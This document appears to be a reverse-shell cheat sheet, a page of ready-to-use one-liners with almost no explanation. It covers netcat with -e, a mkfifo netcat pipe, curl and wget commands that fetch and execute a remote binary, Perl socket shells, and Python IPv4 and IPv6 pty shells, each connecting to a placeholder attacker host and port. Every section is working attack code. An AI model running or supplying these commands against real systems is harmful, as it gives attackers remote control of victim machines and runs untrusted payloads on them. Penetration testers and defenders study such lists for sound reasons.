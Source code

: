 ### Netcat Traditional
```bash
nc -e /bin/sh 10.0.0.1 4242
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242
```

### Netcat OpenBsd
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

## curl
```bash
curl -o test.elf https://xxx.com/shell/test.elf && chmod +x test.elf && ./test.elf
```

## wget
```bash
wget http://1.1.1.1/shell
```

## Other
### perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### python

- IPv4
    ```python
    export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
    ```

    ```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
    ```

- IPv6
    ```python
    python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
    ```
